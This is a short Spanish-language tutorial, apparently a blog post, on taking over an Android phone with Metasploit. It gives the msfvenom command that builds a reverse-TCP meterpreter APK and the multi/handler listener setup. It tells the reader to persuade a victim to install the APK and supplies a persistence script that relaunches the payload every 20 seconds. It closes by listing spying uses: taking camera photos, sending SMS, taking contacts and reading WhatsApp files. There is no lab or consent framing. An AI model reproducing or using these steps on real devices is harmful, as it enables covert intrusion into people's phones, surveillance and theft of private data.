

Hackear android con metasploit
Para hackear un android con metasploit lo primero que necesitamos es tener Kali linux, Parrot os u otra distro de linux destinada a la seguridad que venga con metasploit instalado. Lo primero que haremos sera crear la apk que nos servirá para entrar en el dispositivo android de la víctima.
root@kali:~# msfvenom -p android/meterpreter/reverse_tcp LHOST=[Tu_IP] LPORT:4444 -o msf.apk
Pondremos nuestro pc a escuchar para poder conectar con el dispositivo.
root@kali:~# msfconsole

msf6 > use multi/handler
msf6 > set payload android/meterpreter/reverse_tcp
msf6 > set lhost 192.168.0.4 (la ip que hemos configurado antes en la creación de la apk)
msf6 > set lport 4444
msf6 >exploit
Una vez hayamos puesto nuestro pc a escuchar, lo que haremos será convencer a la víctima para instalar la apk que creamos antes. Cuando estemos dentro con el comando
help podremos ver todas las opciones posibles. Lo que haremos será abrir una terminal y hacer persistente el meterpreter.
> shell
> cd /
> cd /sdcard/Download
> touch persistence.sh
> nano persistence.sh
Ahora añadiremos dentro de persistence.sh lo siguiente:
#!/bin/bash
while :
do am start --user 0 -a android.intent.action.MAIN -n com.metasploit.stage/.MainActivity
sleep 20
done
Volvemos a la meterpreter y una vez estamos en la ruta /sdcard/Download usamos el siguiente comando.
> upload /root/Desktop/persistence.sh
Luego abrimos una shell usando.
> shell
Vamos a la ruta de nuestro .sh y lo ejecutamos.
> cd /
> cd /sdcard/Download
> sh persistence.sh
Desde la meterpreter de metasploit si escribimos el comando show podemos ver varios comandos que hacen diferentes funciones, como hacer fotos desde su camara,
instalar aplicaciones, mandar sms, descargar los contactos de la víctima y muchas otras funciones.
Desde la shell si vamos a /sdcard podemos ver cosas como las aplicaciones instaladas en el dispositivo y los archivos de estas como podrian ser conversaciones o archivos de whatsapp.